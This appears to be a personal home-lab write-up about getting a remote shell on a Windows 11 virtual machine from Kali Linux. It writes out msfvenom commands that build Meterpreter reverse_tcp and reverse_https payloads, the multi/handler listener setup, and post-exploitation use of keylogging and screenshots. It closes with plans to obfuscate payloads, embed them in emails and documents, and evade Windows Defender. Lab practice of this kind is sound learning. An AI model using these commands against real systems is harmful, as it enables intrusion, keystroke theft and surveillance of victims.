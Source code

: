 <h>remote pc hacking mini project</h>
-   I havent worked too much with kali linux but today I am going to
    attempt to create a remote pc hacking lab. I am going to have 2
    vm's, a kali linux (attacker vm), and a windows 11 vm (vulnerable
    target). I might have a metasploitable vm further down the line to
    explore more about this.

-   First I am going to install a kali linux pre built vm and open it.

-   I run sudo apt update && sudo apt full-upgrade -y

    -   ![](images\media\image7.png)

-   Lets confirm our ip to generate payloads

    -   ![](images/media/image11.png)

    -   It is 192.168.7.132

-   Lets generate the payload

    -   ![](images/media/image4.png)

-   Lets set up the listener in metasploit. I first run msfconsole

    -   ![](images/media/image1.png)

-   In the metasploit terminal, lets run:

    -   use exploit/multi/handler

> set payload windows/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> exploit

-   ![](images/media/image6.png)

<!-- -->

-   I then open another terminal and create a http server where you can
    download the payload. I will later experiment social engineering
    attacks paired with the payload but for now we are going to download
    it directly from the server.

-   On the vm, I go directly to the http server
    ([[http://192.168.7.132/payload.exe]](http://192.168.7.132/payload.exe))
    which automatically downloads the payload. I go ahead and execute it

    -   ![](images/media/image8.png)

-   If we go to our attacker machine, we get something

    -   ![](images/media/image10.png)

-   I am going to open the session by using sessions-i 1. I then attempt
    to get some info like executing sysinfo but unfortunately it appears
    windows defender is blocking the payload

    -   ![](images/media/image9.png)

-   Ok, In the vulnerable machine i double checked that real time
    defender, the firewall, etc are off

-   I am going to try to make another payload but this time i will use
    x64 architecture since i am targeting a windows 11 machine

    -   msfvenom -p windows/x64/meterpreter/reverse_tcp
        LHOST=192.168.x.x LPORT=4444 -f exe -o payload.exe

    -   Then do this command in the metasploit console:

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> Exploit

-   Ok, that didn't work

-   Gonna try reverse_tcp instead of reverse_https since it is less
    likely to be flagged. Also gonna use port 443 to bypass basic
    firewalls:

    -   msfvenom -p windows/x64/meterpreter/reverse_https
        LHOST=\<Kali_IP\> LPORT=443 -f exe -o payload.exe

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_https
>
> set LHOST 192.168.7.132
>
> set LPORT 443
>
> Exploit

-   After turning off every single protection layer I know of, I am
    finally able to run sysinfo. (i added the payload to allowed
    threats, and ran the program as the administrator)

    -   ![](images/media/image3.png)

-   Ran some basic commands like sysinfo, getuid, keyscan_start/dump,
    screenshot (you can see what was on the victim's machine behind the
    terminal)

    -   ![](images/media/image5.png)

    -   Also ran ipconfig to get networking information

    -   ![](images/media/image2.png)

**Next I will try to obsuficate the payload and put it in emails, files,
docs! I am going to attempt to also bypass all of windows defender
bloat.**
